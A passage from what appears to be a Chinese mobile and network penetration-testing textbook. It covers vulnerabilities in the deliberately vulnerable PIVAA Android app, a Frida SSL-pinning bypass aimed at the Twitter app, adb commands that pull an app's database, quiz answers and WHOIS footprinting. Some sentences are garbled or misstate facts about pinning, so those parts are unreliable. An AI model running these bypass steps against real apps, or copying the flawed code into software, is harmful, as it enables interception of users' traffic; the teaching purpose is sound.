客户端质量漏洞的攻击向量，根据应用程序的不同可以是任何类型。我们必须理解，即使是安全记录最良好的应用程序（如 `WhatsApp` 或电子邮件客户端），也可能因为客户端质量漏洞而包含重大的零日漏洞，并且它们可能被用于追踪所有终端用户或目标个人。

### 在 PIVAA 中验证代码质量相关问题

`MobSF` 静态分析器在发现许多与代码质量相关的问题表现不错。在本节中，我们将查看在 `PIVAA` 中识别出的几个问题。

- 1. **敏感信息的激进日志**：`PIVAA` 激进地记录了敏感信息，这是极不建议的。你可以看到 `MobSF` 识别出以下受影响的文件：

```json
com/htbridge/pivaa/handlers/ObjectSerialization.java
com/htbridge/pivaa/handlers/LoadCode.java
com/htbridge/pivaa/handlers/WebViewActivity.java
com/htbridge/pivaa/handlers/VulnerableContentProvider.java
com/htbridge/pivaa/handlers/Encryption.java
com/htbridge/pivaa/handlers/database/DatabaseAdapter.java
com/htbridge/pivaa/EncryptionActivity.java
com/htbridge/pivaa/handlers/Authentication.java
com/htbridge/pivaa/handlers/database/DatabaseHelper.java
com/htbridge/pivaa/handlers/LoadCodeActivity.java
com/htbridge/pivaa/handlers/ProviderActivity.java
com/htbridge/pivaa/handlers/VulnerableService.java
com/htbridge/pivaa/handlers/about/AboutAdapter.java
com/htbridge/pivaa/MainActivity.java
com/htbridge/pivaa/AboutActivity.java
com/htbridge/pivaa/DatabaseActivity.java
com/htbridge/pivaa/handlers/VulnerableReceiver.java
```

在接下来的示例中，我们看到 `PIVAA` 应用程序正在记录用户名和密码：

```java
16. import org.apache.commons.lang3.util.StringUtils;
17.
18. public class Authentication extends AppCompatActivity {
19.     public boolean saveContext(Context context, String username, String password) {
20.         String content = username + ":" + password;
21.         Log.i("info","saveLogin: username = " + username + " | password = " + password);
22.     }
23. }
```

图 6.14：`PIVAA` 激进日志

图 6.15 显示了另一个激进日志的示例：

```java
20. Toast.makeText(context, "data: " + data, show);
21. Log.i("Horage", "Location = " + location);
22. SimpleDateFormat dateFormat = new SimpleDateFormat("yyyyMMddmmss", Locale.US);
23. try {
24. FileOutputStream fos = new FileOutputStream(location, true);
25. PrintWriter pw = new PrintWriter(fos);
26. pw.println(dateFormat.format(new Date()) + ": " + data + "<br>");
27. pw.flush();
28. pw.close();
29. catch (FileNotFoundException e) {
30. e.printStackTrace();
31. Log.i("Horage", "FILE NOT FOUND IN (WRITE_EXTERNAL_STORAGE permission present in the manifest)");
32. catch (IOException e) {
33. e.printStackTrace();
34. }
```

图 6.15：`PIVAA` 激进日志

- 2. **PIVAA 写入外部存储**：如图 6.16 所示，这是一个糟糕的编码实践，因为任何程序都可以读写外部存储：

```java
98. private File getOutputFile() {
99. String full_path = getExternalStorageDirectory().getAbsolutePath().toString() + "/RECORDING/" + name + ".";
100. Toast.makeText(this, "file: " + full_path, Toast.LENGTH_SHORT);
101. return new File(full_path);
102. }
103. public void onInfo(MediaRecorder recorder, int what, int extra) {
104. if (what == 80) {
105. stopRecorder(true);
106. }
```

图 6.16：`PIVAA` 写入外部存储

- 3. **PIVAA 创建临时文件**：敏感信息绝不应写入临时文件。

`com/htbridge/pivaa/handlers/Authentication.java` 的源码显示它创建了一个临时文件，如图 6.17 所示：


```java
18. public class Authentication extends AppCompatActivity {
19. public boolean saveCache(Context context, String username, String password) {
20. String content = username + password;
21. Log.i("savelogInfo", "username = " + username + " | password = " + password + ");\n22. try {
23. File outputFile = File.createTempFile("cache", context.getCacheDir());
24. String content2 = Encryption.hashMessageDigest(Algorithms.MD5, content);
25. Log.i("savelogInfo", "Saving to file " + outputFile.getAbsolutePath() + " | md5 content " + content2);
26. BufferedWriter bw = new BufferedWriter(new FileWriter(outputFile.getAbsolutePath()));
27. }
```

图 6.17：PIVAA 创建临时文件

- 4. **PIVAA 创建可写文件**：当创建文件时带有可写权限，任何应用都可以向其写入。

查看 `com/htbridge/pivaa/handlers/Authentication.java` 的源码，我们看到它将 2 作为模式：

```java
51. public boolean createFile(Context context, String text) {
52. try {
53. FileOutputStream fs = context.openFileOutput("lock", 2);
54. fs.write(text.getBytes());
55. fs.close();
56. Log.i("info", "createFile: done");
57. return true;
58. } catch (Exception e) {
59. }
```

图 6.18：PIVAA 创建可写文件

- 5. **PIVAA 使用 SQLite 数据库并执行查询**：原始查询中的不可信用户输入可能导致 SQL 注入。考虑 `com/htbridge/pivaa/handlers/DatabaseHelper.java` 中的其中一个示例（如图 6.19 所示）。在这里，我们可以看到 `id` 直接传递给了 `rawQuery()`：

图 6.19：PIVAA 原始查询执行

图 6.20：不安全的数据库处理

## 代码动态加载

动态代码加载（DCL）允许应用程序加载不属于其静态代码库的代码。额外的代码可以从远程位置并在并在执行。

`com/htbridge/pivaa/handlers/LoadCode.java` 的源码（图 6.21）揭示了它是如何从存储在变量 `path` 中的路径加载 `test.jar` 的。

图 6.1：PIVAA 动态代码加载

影响质量的常见漏洞包括：

- 缓冲区溢出，特别是用 C 和 C++ 编写的代码，为黑客提供了运行任意代码或获得未经授权访问的机会

- 允许代码执行的漏洞，允许攻击者绕过验证和各种其他安全协议

- 与不安全的第三方集成

- 使用错误或不安全的 API

- 糟糕或不安全的编码语言结构，由格式字符串错误组成

或知识产权（IP）和信息窃取。可以通过多种方法来提高整体代码质量，例如使用高级混淆、多样化和完整性监控，这最终会让黑客难以理解代码。他们还可以识别出由于代码质量不完善导致的漏洞。

## 代码篡改漏洞

代码篡改是指黑客操纵应用程序的源代码以创建相同应用程序的修改或伪造版本。这些操作可能是恶意的，也可能是无意的，但在大多数情况下，修改后的应用程序将不会按照发布者预期的方式运行。

### 代码篡改漏洞的严重性

应用程序开发者或发布者需要对他们的资产和知识产权（IP）拥有完全控制权，才能保护消费者和业务。代码篡改是 OWASP 移动端前 10 最典型的威胁之一。黑客创建应用程序的克隆并为了自己的目标对其修改，最终颠覆了应用发布者的意图。

此处列出了此漏洞相关的已知风险：

- 旨在绕过支付需求的盗版视频游戏应用

- 银行或金融应用被篡改以收集用户信息

- 进行直接或间接的在线诈骗

- 禁用内置安全功能

- 窃取广告收益

### 代码篡改的攻击向量

一旦黑客反向工程应用程序的代码并理解其流程和逻辑，他们就有各种方法注入恶意代码，改变应用的核心属性和功能。这包括对应用程序的核心二进制文件进行直接修改、方法钩子（`method hooking`）、对应用程序包内的资源进行更改，以及通过重路由或替换系统 API 以执行有害代码。显然，这种方法让黑客更容易对应用程序代码进行静态分析。

PIVAA 没有实现任何形式的代码篡改保护，这就是为什么我们能够反编译整个应用并查看其源代码。因此，整个应用程序可以被认为存在代码篡改保护不足。

### 代码篡改的缓解策略

移动应用程序应该能够识别是否包含了新代码，或者是否与其运行时学习的完整性信息发生了更改。应用程序需要在运行时对代码完整性违规做出适当响应。

此类风险的修复方法在 OWASP 反向工程以及代码修改防止项目的更多技术详情中：

`https://owasp.org/index.php/OWASP_Reverse_Engineering_and_Code_Modification_Prevention_Project`

Android 根检测：通常，经过自定义的应用程序会在越狱或 root 环境下执行工具程序。因此，尝试在运行时识别此类受操纵设备并做出相应反应（记录事件到 Web 服务器或关闭）是合理的。有几种检测已 root Android 工具的常用方法。这些是：

- 开发者可以检查 `build.prop` 是否包含 `ro.build.tags= test-keys` 行，这表明是设计构建或非官方 ROM。

- 开发者还可以检查 OTA 证书。检查名为 `/etc/security/otacerts.zip` 文件是否存在。

- 开发者还可以检查许多已知的 root 后 APK。其中一些列如下：

- `eu.chainfire.supersu`

- `com.thirdparty.superuser`

- `com.koushikdatta.superuser`

- `com.noshufou.android.su`

或者，开发者可以寻找 `su` 二进制文件的存在，它们是超级用户。这些二进制文件在有人尝试 root Android 设备时被安装，可以在以下设备路径找到：

- `/system/su`

- `/system/xbin/su`

- `/system/bin/su`

- `/sbin/su`

- `/system/bin/.ext/.su`

我们还可以尝试执行 `su` 命令并查看是否成功。如果返回 0，则意味着 `su` 命令执行成功。

## 反向工程漏洞

反向工程是 OWASP 移动端前 10 威胁中大多数主要攻击的起点。它涉及黑客下载并安装应用程序，然后使用反编译器或调试器对其最后的核心二进制文件进行分析，以识别其源代码、算法、库以及各种其他组件。基本上，它是从最终类型开始，解构并弄清楚应用程序是如何工作的。如果你注意到了，对于 MobSF 静态分析器，它是从反编译 APK 开始的，这仅仅是反向工程的第一阶段。

### 反向工程漏洞的严重性

当应用程序被高效地反向工程时，黑客可以获取许多他们可以窃取或生成的信息。

开关、测试代码、日志文件、后门或存在漏洞的管理员端点在开发或更新后被遗留或未受到充分保护。

## 冗余功能漏洞的严重性

根据功能的性质，它可能给应用所有者带来的担忧可能有所不相同。最严重的结果之一包括：黑客获得对系统后端的未经授权访问、执行管理员级功能的能力，或者对某些普通应用用户无法直接访问的隐藏功能的访问权限。

## 冗余功能漏洞的攻击向量

由于它不是应用程序刻意暴露的部分，多余能力可能会成为一个问题，因为软件工程师在寻找漏洞时可能不会留意它。为了发现并利用这些隐藏的漏洞，攻击者最初会检查应用程序以确定存在哪些功能。这让他们了解后端可以实现哪些操作。同样，他们可以记录数据以查看是否有任何遗留的端点或功能，并据此开发利用策略。

### 在 PIVAA 中验证冗余功能

MobSF 的清单分析模块尝试寻找开发者所犯的配置错误。PIV 的 `AndroidManifest.xml` 将调试能力设置为 `true`（如图 6.24 所示），这使得反向工程师更容易对其挂载调试器。这允许转储堆栈跟踪并访问调试器类：

```
:protectionLevel="dangerous" android:debuggable="true" android:allow
```

图 6.24：PIVAA 调试标志设置


如果应用程序如图 6.24 所示是可调试的，那么使用 `ADB` 执行应用程序命令就变得轻而易举。我们可以在模拟器上启动 shell 并利用 `run-as` 命令获取交互式 shell。从那里，我们可以检查包目录的可用资源，通常情况下我们没有权限访问那里：

```
run-as com.htbridge.pivaa
```

我们还可以利用 `run-as` 获取通常安全存储在应用数据目录中的数据：

```
adb exec-out run-as com.htbridge.pivaa cat databases/pivaDB > pivaDB_new
```

使用 `jdb`，我们可以将调试器附加到目标应用程序。我们可以使用 `classes` 和 `methods` 命令查看应用程序中有哪些类和方法。我们可以使用 `jdb` 在此方法处设置断点，并使用 `stop` 命令控制应用程序的执行。

我们还可以在 PIVAA 代码配置文件中看到硬编码的密码，如图 6.25 所示：

```
File: Configuration.htbridge.pivaa;
```

| 行号 | 内容 |
| :--- | :--- |
| 1 | package com.htbridge.pivaa; |
| 2 | public class Configuration { |
| 3 | public String default_database_item = "High-Tech Bridge"; |
| 4 | public String default_title_item = "My Vulnerable Android Application"; |
| 5 | public String password = "vercomplicatedpassword"; |
| 6 | public String url_item = "https://example.com/api/v1/load_all/1510341423771.html?id=15103414231152"; |
| 7 | public String url_webview = "http://www.example.com/ssl/"; |
| 8 | public String url_webview_item_1 = "file:///etc/hosts"; |
| 9 | public String url_webview_item_2 = "https://dev.rocks/scripts.html"; |
| 10 | public String username = "test"; |
| 11 | } |

> 图 6.25：凭据泄露

如果此类凭据具有特权，黑客可以将其作为通往后端服务器的后门。

## 冗余功能漏洞的缓解策略

有多种方法可以寻找后门或非本质功能：

- 检查应用程序中是否存在遗留的端点或功能
- 开发者在发布前应验证所有必要的身份验证功能
- 检查应用程序中是否包含了不必要的冗余功能
- 尽可能在服务器端验证所有请求
- 检查应用程序是否存在不安全的身份验证漏洞
- 绕过身份验证程序可能导致：不安全的身份验证漏洞
- 检查应用中是否存在不安全的身份验证漏洞，这需要额外的关注。

## 身份验证漏洞的严重性

如果身份验证程序被绕过，黑客就可以利用 `ADB` 执行应用程序命令。

## 身份验证漏洞的攻击向量

不安全的身份验证以多种形式存在。以下是身份验证的常见攻击向量：

- 弱的身份验证协议
- 在 在本地存储身份验证信息
- 不安全的平台身份验证方法

## 身份验证漏洞的缓解策略

不安全的身份验证可能会引起应用开发者的担忧。为了防止身份验证漏洞，这里有一些通用的缓解策略：

- 尽可能在服务器端验证所有身份验证请求
- 在本地存储身份验证信息可能导致漏洞。如果应用程序对二进制文件进行修改，身份验证程序可能会被绕过
- 应用程序需要执行实时或近实时的身份验证检查
- 尽可能允许用户使用身份验证密码
- 应用程序中实现的“记住我”功能不应存储用户密码
- 不要使用可伪造的值进行用户身份验证
- 如果需要在客户端存储数据，应使用从用户登录凭据安全生成的加密密钥进行加密

## 授权漏洞

不安全的授权与身份验证漏洞密切相关，因为两者都处理用户身份和凭据。然而，身份验证检查用户*是谁*，而授权检查的是*用户的权限*（他们被允许做什么）。授权通常紧随身份验证之后。具有不安全授权的应用程序意味着恶意用户可以获得他们不拥有的访问权限（或授权）。

## 授权漏洞的严重性

易于访问权限或权限过大的用户会给应用所有者带来巨大问题。这意味着黑客能够导航数据库并直接窃取数据或控制其他账户。

## 授权漏洞的攻击向量

黑客可以使用许多漏洞从不安全的授权中获益，其中包含：

- 不完整的身份验证过程无法有效识别用户，或允许用户在成功完成身份验证后伪造身份
- 浏览漏洞或隐藏端点，这些端点并非计划被轻松访问，但黑客可以执行特权任务
- 操纵不安全的直接对象引用（`IDOR`）漏洞，允许黑客通过操纵用户提供的标识符（客户 ID、个人资料 ID、账户号码）来访问特权数据或信息

## Android 应用程序基础反向工程

逆向工程是指拆解某个物品（软件、机器、工具、小设备等）以观察其工作原理的过程，无论它是物理设备还是（在本例中为）Android 应用。反编译是逆向工程的一种，通过查看其源代码来检查移动应用。反编译程序会检查二进制文件并将其从低级语言转换为高级语言。高级语言更易阅读和理解，因此逆向工程师可以很容易理解其逻辑和代码流。

Android 二进制文件称为 `APK`，全称为 Android Package Kit（Android 包管理器）。`APK` 包含以压缩的 Dalvik 可执行文件（`.dex`）数据形式的应用数据。`DEX` 文件可能包括：

- 本地变量列表 (`Local variable list`)
- 方法列表 (`Method list`)
- 字段表 (`Field table`)
- 字符串表 (`String table`)
- 类定义表 (`Class definition table`)
- 代码头 (`Code header`)
- 字段列表 (`Field list`)
- 方法表 (`Method table`)
- 类列表 (`Class list`)
- 文件头 (`File header`)

有关 `.dex` 文件的更多信息，请参阅此处的官方 Android 文档：

https://developer.android.com/reference/dalvik/system/DexFile

反编译器是一个提取 `APK` 组件并尝试揭示开发该应用时编写的原始代码的工具。这个解压缩过程是固定的，但在某些情况下，取决于是否实现了任何反编译技术以使逆向工程变得困难，可能会变得稍微复杂。有很多反编译器可以选择，最受欢迎的是 `jdex-gui`，因为它是一个具有用户友好界面的基础工具。`MobSF` 自带了 `APK` 反编译器，让我们的生活变得简单得多。当我们用 `MobSF` 扫描 `APK` 时，它会默认反编译 `APK` 并向我们展示 `APK` 的 Java 源代码。反编译后的代码可以从 `MobSF` UI 中下载，如图 6.26 所示：


图 6.26：使用 `MobSF` 反编译 `APK`

反编译代码也可以可以在 `MobSF` 代码浏览器中进行查看，如下图所示：


图 6.27：`MobSF` 浏览器反编译代码

## SSL 证书固定 (SSL certificate pinning)

在我们进入 SSL 证书固定之前，我们必须理解 SSL 握手的前几个阶段，即客户端欢迎消息（`client hello message`）和服务器消息（`server message`）。在 `client hello` 期间，SSL 客户端（在本例中为我们的移动应用）通过向 SSL 服务器发送 `client-hello` 消息启动 SSL 握手。欢迎消息包含许多重要信息，如 TLS 版本、客户端支持的加密套件以及随机字节字符串等。作为 `client hello` 的响应，服务器向客户端发送 `server-hello` 消息。`server-hello` 包含最重要的信息是服务器的 SSL 证书。SSL 证书持有如证书颁发机构（CA）颁发者、公钥等信息。

证书固定限制了某些特定网站或服务器有效的证书，从而降低了风险。与允许使用任何类型的 SSL 证书相反，应用开发者有时会在应用内部使用自己的名称和值来固定证书颁发机构（CA）颁发者、公钥以及 SSL 证书的其他属性。当启用 SSL 固定时，客户端将只会连接到证书详情无效的 Web 服务器，并拒绝建立 HTTPS 连接。证书固定允许应用程序控制证书颁发、CA 泄露或中间人攻击（MITM）的风险。


现在，让我们理解为什么 SSL 固定会困扰移动应用渗透测试。尽管你已经准备好了 HTTPS 拦截设置（如第 3 章“为你的渗透测试设置实验室”所述），但如果你的 Android 应用上启用了 SSL 固定，你将无法在代理中看到 HTTPS 流量。这是由于拦截软件使用了自签名证书导致的。对于 Burp Suite，它使用的是 Portswigger 的自签名证书。因此，出于渗透测试的目的，如果你必须进行 MITM 以查看 Android 应用如何与后端 API 通信，你将不得不绕过 SSL 固定。可以可以在 Play Store 上提供的 Twitter Android 应用也启用了证书固定。在本示例，我们将绕过 Twitter Android 应用的 SSL 证书固定保护。

## 使用 Frida 绕过 SSL 证书固定

Frida 是一个用于开发者、逆向工程师和安全研究人员的动态插桩工具包。在计算机编程中，插桩（instrumentation）是指测量性能以诊断错误并跟踪信息的措施。插桩有两种类型：源码插桩和二进制插桩。Frida 允许你在几乎所有平台（包括移动设备）上对二进制进行插桩。简单来说，使用 Frida，我们可以在运行时更改 Android 应用的行为，这最终允许我们绕过应用开发者实现的 SSL 证书验证。让我们来看以下步骤：

- 1. 根据你的移动设备平台架构从 `https://github.com/frida/frida/releases` 下载 Frida server。你可以通过以下 `adb` 命令找到它：

```
adb shell getprop ro.product.cpu.abi
```

如果你正在使用 BlueStack，它是 `frida-server-15.xx.xx-android-x86.xz`。

- 2. 从 `https://gist.github.com/esabook/a84416b2729f0b4e047abfb0a316487f` 下载 Frida 通用 SSL 固定绕过脚本，并将其作为 `pinning-bypass.js` 保存到你的项目中。

- 3. 提取 Frida server 二进制文件并传输到你的 Android 模拟器。你可以通过以下命令从 PC 传输：

```
adb push frida-server /data/local/tmp
```

- 4. 使用以下命令更改 Frida server 的权限并运行它：

```
adb shell

su

cd /data/local/tmp

chmod 777 frida-server

./frida-server
```

- 5. 参考 `https://frida.re/docs/installation/` 在 PC 上安装 Frida。如果你使用 Python 安装 Frida，安装后你应该在 Python 路径的 `\Scripts` 目录中看到 Frida 二进制文件。

- 6. 正如第 3 步所述，在 Android 设备上运行 Frida 后，从 PC 执行以下命令以列出运行的所有进程：

```
C:\python37\Scripts\frida-ps.exe -U
```

如果你看到了进程列表，说明 Frida 配置成功。现在，要绕过固定，你应该在 PC 上执行以下命令：

```
frida -U -f com.twitter.android -l c:\pathof\pinning.js --no-pause
```

此之后，当你在 Twitter 应用中进行任何活动（例如发布推文、点赞、转发等）时，你应该能够看到 HTTPS 流量。

## 总结

我们相信你现在对如何保护你的 Android 应用程序有了更深入的理解。Android 应用渗透测试是一个复杂但至关重要的阶段。与任何其他计算机系统一样，保护 Android 应用从开发或设计阶段就开始。开发者需要确保他们处理的敏感数据无论如何都能保持安全。为了发现隐藏的缺陷和漏洞，你必须从内部查看应用程序的能力。这需要标准的逆向工程技能，你可以通过解决 OWASP MSTG CrackMe 挑战来获得这些技能。

## 记忆点

- 始终将理论与大量的实践相结合。理论来自教程和书籍。对于实践，你必须破解 Android crackme 挑战、参加 CTF 等。这需要基础的逆向工程技能，你可以通过解决 OWASP MSTG CrackMe 挑战来获得：

`https://github.com/OWASP/owasp-mstg/tree/master/Crackmes`

- 仅进行 Web 应用程序渗透测试，不要仅依赖自动化扫描。

- 了解漏洞是不够的，还要理解如何利用它。

- 记住 OWASP Mobile Top 10 列表中每一类漏洞的攻击向量和示例。

- 尽可能多地阅读报告、撰写总结（write-ups）和博客文章。这有助于帮你开阔思路。

## 多选题

1. 仅在目标应用程序上运行自动化漏洞扫描器并对扫描结果进行验证被称为渗透测试。

   A. 正确

   B. 错误

2. 移动安全框架（MobSF）静态扫描器和动态扫描器可以指出应用中所有可能的安全漏洞。

   A. 正确

   B. 错误

3. 哪种工具允许我们拦截 Android 移动应用程序的 HTTP 流量？

   A. Burp

   B. nmap

   C. MobSF

   D. Django

4. 如果发现一个以明文格式保存关键信息的 Android 应用，它属于哪种漏洞分类？

   A. 越权访问控制

   B. 不安全的数据存储

   C. 注入

   D. 不安全的反序列化

5. 如果发现一个 Android 应用不当地缓存了剪贴板缓冲区，它属于哪种漏洞分类？

   A. 越权访问控制

   B. 多余功能

   C. 代码篡改

   D. 不安全的数据存储

6. 科学计算器应用被请求 `android.permission.CAMERA` 权限是合法的。

   A. 正确

   B. 错误

7. `ACCESS_COARSE_LOCATION` 权限提供的位置精度在市街区范围内。

   A. 正确

   B. 错误

8. `ACCESS_FINE_LOCATION` 提供的比请求 `ACCESS_COARSE_LOCATION` 时提供的位置更精确。此权限对于某些连接任务是必要的，例如通过低功耗蓝牙（BLE）连接附近的设备。

   A. 正确

   B. 错误

9. `setHostnameVerifier` API 可以使用以下哪个参数来禁用主机名验证？

   A. NO_CERT

   B. DONT_VERIFY

   C. DO_NOT_VERIFY

   D. VERIFY_FALSE

10. 一种安全的开发实践是使用 `HttpConnection` 而非 `HTTPSConnection` 进行服务器交互。

    A. 正确

    B. 错误

11. 在加密方面，电子密码本（ECB）总是优于密码分组链接模式（CBC）。

    A. 正确

    B. 错误

12. 电子密码本（ECB）将输入拆分为固定大小的块，并使用相同的密钥对每个块进行独立加密。

    A. 正确

    B. 错误

13. 密码分组链接模式（CBC）是分组密码加密的一种高级形式。在 CBC 模式加密中，每个密文块都依赖于截至该点处理的所有明文块。这为加密数据增加了额外的一层复杂性。

    A. 正确

    B. 错误

14. 由于无法满足现代安全需求，下列哪些算法和协议**不应**被使用？

    A. RC2

    B. MD4

    C. MD5

    D. SHA1

    E. 以上所有

15. 记录社会安全号是可以的。

    A. 正确

    B. 错误

16. 应用绝不应将敏感信息写入外部存储器。

    A. 正确

    B. 错误

17. 文件绝不应以 `MODE_WORLD_WRITEABLE` 模式写入。

    A. 正确

    B. 错误

18. 代码的动态加载对设备安全构成巨大威胁。

    A. 正确

    B. 错误

19. 下列哪种工具可以逆向工程 APK？

    A. dotPeek

    B. IDA Pro

    C. APK tool

    D. metasploit

20. 即使 APK 中启用了调试功能，无法使用 JDB 对应用程序进行调试。

    A. 正确

    B. 错误

21. 当开发者在 APK 中故意留有后门时，属于哪一类？

    A. 越权访问控制

    B. 注入

    C. 多余功能

    D. 代码篡改

22. 在启动时检查设备是否 root 是一种良好的做法。

    A. 正确

    B. 错误

23. SSL 钉（SSL pinning）对于防止中间人攻击是必要的。

    A. 正确

    B. 错误

24. Frida 工具也可以用于反编译 APK。

    A. 正确

    B. 错误

## 答案

1. 错误

2. 错误

3. Burp

4. 不安全的数据存储

5. 不安全的数据存储

6. 错误

7. 正确

8. 正确

9. DO_NOT_VERIFY

10. 错误


11. 错误

12. 正确

13. 正确

14. 以上所有

15. 错误

16. 正确

17. 正确

18. 正确

19. APK tools

20. 错误

21. 多余功能

22. 正确

23. 正确

24. 错误

## 问题

1. 什么是 OWASP Mobile Top 10？

2. 解释原生的。

3. 解释模拟器。

4. 解释模拟器。

5. Android manifest 提供了什么？

6. 什么是 SSL 钉？

7. 如何拦截流量？

8. 应用中如何开启调试功能？

9. 谈谈你最近的发现。

10. 这种情况属于哪一类？

这些技术被用于测试，但此类测试的性能取决于测试人员的技能。测试人员应当具有信息技术经验，并具备抽象思维的能力。渗透测试人员还应该能够预判真实威胁者的恶意意图。

## 网络渗透测试的类型

网络渗透测试有许多类型。在本节中，我们将对不同类型的网络渗透测试、其适用性以及优缺点进行对比比较。

## 外部渗透测试与内部渗透测试

外部渗透测试与内部渗透测试之间有什么区别？外部渗透测试检查公司当前的公开信息状态或其面向外部的资产。评估小组尝试利用在筛选组织公开信息时识别出的漏洞来获取利益，或者尝试通过面向外部的资产（如公司电子邮件、云托管应用程序和网站）访问数据。

例如，外部渗透测试通常从远程位置执行，并可以尝试执行以下任何或所有操作：

- 突破组织的边界防火墙
- 尝试使用从泄露数据中收集的公开信息和专有信息
- 收集开源情报 (`OSINT`)
- 使用专门开发的工具发现漏洞并利用漏洞
- 破解密码

这些通常是恶意黑客尝试从外部利用的攻击面区域。

另一方面，在内部渗透测试中，测试人员会被提供公司资产的某些合法访问（例如网络）。这些测试将额外尝试寻找内部漏洞。在这种模拟下，渗透测试人员代表恶意攻击者或对公司内部网络具有一定合法访问权限的内部内部人员/员工。

这些情况模拟了当叛变员工、承包商或伪装成员工的网络罪犯试图从内部黑入组织时可能发生的情况。内部渗透测试人员会考虑秘密信息被自愿泄露、误用或损坏的影响。然后，他们利用这些数据对员工实施更好的安全控制，例如增强系统访问权限、针对漏洞应用程序和协议滥用进行限制。

## 安全测试与不安全测试

无论你如何描述，欢迎黑客直接进入你的组织执行渗透测试在本质上都是有风险的。可能会有很多点出现问题，其中有几点可能会产生连锁影响。在本节中，我们将阐明渗透测试的主要危险以及你可以采取哪些措施将这些危险降至最低。最典型的威胁是数据损坏风险和系统稳定性问题，它们会直接和间接地影响系统。直接影响发生在受目标系统以意想不到且不利的方式运行的时候。以下是对系统产生直接影响的几个实例：

- 由于应用程序安全扫描器导致的数据损坏
- 由于网络漏洞扫描器甚至详尽端口扫描导致的服务和应用程序崩溃
- 服务和网络设备停机

尽管没有无风险的渗透测试，但可以采取一些步骤来降低风险。安全测试通常在生产系统上进行，测试人员将尽可能采取预防措施以减少对客户/消费者的影响。在安全测试期间，渗透测试不应运行任何可能导致系统错误或中断的利用、扫描、攻击，或访问存储在服务器上的 PII（个人身份信息）数据。不安全测试则相反，通常在非生产系统上进行。在不安全测试期间，渗透测试人员通常被允许尽一切手段证明漏洞的存在。虽然安全和不安全测试的核心概念相同，但这种测试灵活性始终根据具体情况而变化。因此，这些条件在开始渗透测试之前，应该始终正式记录，并获得测试人员和测试消费者的同意。

## 网络渗透测试的不同阶段

渗透测试过程可以分为几个阶段：

- 足迹扫描与侦察
- 网络扫描
- 枚举
- 漏洞分析
- 利用
- 权限提升
- 横向移动

在本章的下一节中，我们将深入探讨这些渗透测试的阶段。

## 足迹扫描与侦察

在渗透测试中，足迹扫描阶段允许测试人员收集有关内部和外部安全设计的信息。收集信息有助于确定系统中的漏洞，这些漏洞可以被利用以获取访问。攻击者通过他们黑入目标必须经过的 IP 地址范围或与公共域名关联来关注目标。

### 足迹扫描的类型

伦理破解的第一步是足迹扫描。足迹扫描是收集与目标和目标网络相关的信息。这些信息的收集有助于识别进入目标网络的不同方式。这些信息可能是通过公开的个人信息以及任何秘密资源的敏感信息收集的。通常，足迹扫描和侦察是通过进行社交工程攻击，或通过任何其他方法获取有关目标的最大信息。这一阶段的目的是在不通知目标的情况下获取有关目标的信息。

### 匿名/被动足迹扫描

匿名足迹扫描包括通过互联网源进行足迹扫描。基本上，被动足迹扫描或匿名足迹扫描的核心是在不让目标所有者感知的情况下收集有关目标的数据。

### 活跃足迹扫描

活跃足迹扫描是通过工具和技术（例如执行 `ping` 扫描或使用 `tracer` 命令）来收集目标信息的程序。活跃足迹扫描可能会触发目标的入侵检测系统 (`IDS`) 并可能被记录，因此它需要程度上的隐蔽性才能有效执行。

# 网络渗透测试期间足迹扫描的目标

足迹扫描的主要目的是：

- 了解目标的安全态势
- 减少关注区域
- 绘制网络地图

## 足迹扫描方法论

使用互联网、社交媒体、主网站和各种其他来源获取任何人的信息并不是什么大事。它可能包含大量关于个人的信息，这些信息的收集可以满足攻击者的需求，获取足够的信息。黑客常用的策略包括：

- 通过 `WHOIS` 进行足迹扫描
- 通过 `Shodan` 进行足迹扫描
- 通过 `DNS` 进行足迹扫描
- 通过搜索引擎进行足迹扫描
- 高级 Google 技术

## 通过 WHOIS 进行足迹

在本节中，我们将查看 `WHOIS` 查询。它是用于查找互联网所有者的协议，例如域名、服务器或 IP 地址。在这里，我们实际上没有进行任何类型的黑客，只是从数据库获取信息。

### 在 Kali Linux 上进行 WHOIS 查询

`Kali Linux` 有一个内置工具，允许我们直接从命令行进行 `WHOIS` 查询。以下命令将对 `bing.com` 执行 `WHOIS` 查询。

```
kali@kali:~
$ whois bing.com
Domain Name: BING.COM
Registry Domain ID: 46939_DOMAIN_COM_VRSN
Registrar WHOIS Server: whois.markmonitor.com
Registrar URL: http://www.markmonitor.com
Updated Date: 2020-12-29T10:38:07Z
Creation Date: 1996-01-29T05:00:00Z
Registry Expiry Date: 2022-01-31T05:00:00Z
Registrar: MarkMonitor Inc.
```

图7.1: Kali Linux 中的 whois 命令

你可以看到，它提供了许多关于 `bing.com` 的信息。它为我们提供了注册者名称、组织名称、国家、电话号码等，所示：

```
Registrant ID:
Registrant Name: Domain Administrator
Registrant Organization: Microsoft Corporation
Registrant Street: One Microsoft Way,
Registrant City: Redmond
Registrant State/Province: WA
Registrant Postal Code: 98052
Registrant Country: US
Registrant Phone: +1.4258828080
Registrant Phone Ext:
Registrant Fax: +1.4259367329
Registrant Fax Ext:
Registrant Email: domains@microsoft.com
```

图7.2: Kali Linux 中的 whois 命令

它还为我们提供了 `bing.com` 的名称服务器信息。


图 7.3: Kali Linux 中的 Whois 命令

名称服务器是用于将域名翻译为 IP 地址的服务器。它处理来自客户端（如计算机系统或移动设备）的关于域名位置及其在 DNS 服务器上服务的查询。

## 提供 Whois 信息的网站

对任何域域名进行 Whois 查询也可以在多个网站上进行。如果你在 Google 上搜索 "Whois lookup"，你将看到一个提供此类服务的网站列表。最流行的是 `domaintools.com/`。在这里，如果我们输入目标域名 `bing.com` 并点击搜索（Search）按钮，就可以获得一个用于联系域管理员的电子邮件地址。通常情况下，我们能够看到注册该域名的企业的地址，但有时我们会看到某些公司通过隐藏详细信息来强制执行隐私。如果公司没有利用任何个人隐私保护，我们就能看到他们的地址以及关于该实际公司的更多信息。

## 使用 Onyphe 工具进行足迹探测


Onyphe (https://www.onyphe.io/) 是一款免费工具，提供了比 Whois 查询更多的关于域的其他信息。用户可以使用搜索选项在 Onyphe 上搜索任何域名的详细信息，如图 7.4 所示：


图 7.4: Onyphe 图形界面

如下截图所示，它提供了 bing.com 的所有子域名以及同一所有者拥有的 IP 范围：

| 子域名 (Subdomains) | 子网 (Subnet) |
| :--- | :--- |
| api.bing.com | 13.107.0/22 |
| api.bing.net |  |
| api.tiles.com |  |
| appex.bing.com |  |
| bat.bing.com |  |
| cn.bing.com |  |
| cn.bing.net |  |
| devvirtualearth.net |  |
| dict.bing.com |  |
| dict.bing.cn |  |
| ionline.bing.com |  |
| local.bing.com |  |
| m.bing.com |  |
| maps.bing.com |  |
